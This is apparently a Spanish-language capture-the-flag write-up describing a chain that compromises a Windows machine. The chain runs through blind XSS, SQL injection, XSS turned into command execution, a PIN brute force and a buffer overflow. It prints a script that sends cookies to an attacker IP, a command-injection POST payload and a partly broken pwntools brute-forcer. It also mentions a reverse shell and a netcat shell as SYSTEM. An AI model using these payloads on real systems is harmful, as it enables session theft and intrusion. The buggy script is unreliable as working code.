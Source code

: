 ## Tecnicas 
- Blind wXSS Injection  
- Stealing the session cookie by XSS injection  
- SQLI - Error Based  
- SQLI - File Access  
- SQLI - Stealing Net-NTLMv2 Hash (impacket-smbserver)  
- XSS + XSRF => RCE  
- Abusing a custom binary (Brute Force Pin && Overflow)
## Procedimiento
- Campo vulnerable a XSS(*Blind*). Podemos confirmar aun asi, si es vulnerable a XSS cargando un "script" de nuestra maquina. Si recibimos una petición, quiere decir que es vulnerable.
- Js scripting ->
```js
request = XMLHttpRequest();
request.open("GET", "http:<ip>/?<Parameter>" + document.cookie, true);
request.send()
```
- SQLi. Recolecíon de credenciales
- SQLI. FIle road vuln
- XSS Convertido en RCE aprovechandose del XSRF del SQLi. Podemos lograr esto si podemos hacer que el usuario mande por GET la query que deseamos desde donde se acontecio el primer XSS. 
- Js scripting ->
```js
request = XMLHttpRequest();
params = 'cmd=dir|powershell -c "$comando";$segundoComando';
request.open("POST", "http://localhost/admin/backdoorchecker.php", true);
request.setRequestHeader('$cabecera', '$valor');
request.send(params);
```
- Listamos los procesos con ``tasklist``, indentificamos el PID del proceso. Buscamos el PID en algun proceso listado con ``netstat -ano``.
- Nos entablamos una revershell con powershell utilizando el repositorio de *nishang*
- **Consejo**: Utilizar la OneLine de Automator para ver los puertos abiertos en powershell.
- Remote Port Fordwarding del puerto que aloja la aplicación.
- Python Scripting ->
```python
#!/bin/bash
from pwn import *
import time

def def_handler(sig, frame):
	print("\n[!] Saliendo...")
	sys.exit(1)

#ctrl + c
signal.signal(signal,SIGINT, def_handler)

def tryPing():

	#Declaramos una varibale que almacene el valor de nuestro diccionario
	pins = open('$diccionario', 'r')
	#Creamos una barra de progreso
	p1 = log.progress("Fuerza bruta")
	p1.status("Comenzando ataque de fuerza bruta")

	time.sleep(2)
	counter = 1
	for pin in pins:

		p1.status("Probando con el PIN %s [%s/10000]" % pin.strip('\n'), str(counter))
	
		#Creacmos un socket que escucha por tcp
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		#Nos conectamos a nuestra maquina por el puerto 910
		s.connect(('127.0.0.1', 910))
		#Declaramos el maximo de bytes que puede leer
		data = s.recv(4096)
		#Mandamos de forma bits(gracias a encode()) la data
		s.send(pin.encode())
		#Volvemos a declarar el maximo de bytes a leer
		data = s.recv(1024)

		if b"Access denied" not in data:
			p1.sucess("El pin correcto es %s" % pin.strip("\n"))
		
		counter += 1
if __name__ == "__main__":
	tryPin()
```
- Una vez obtenido el PIN valido, podemos ver que si tratamos de corromper programa, conseguimos un OverFlow, podemos cambiar hacia adonde apunta la ejecución del programa.
- Creamos un patron de palabras con *pattern_create.rb*. Podemos ver el valor antes de sobreescribir el apuntador con *pattern_offset.rb* y pasandole 4 bites de la cadena con el parametro **-q** 
- Verificamos que asi es con ``python -c "print A*32 + "B"*5``.
- Hacemos que el programa apunte hacia el nc que habiamos transferido para ganar acceso a la maquina como authority\\system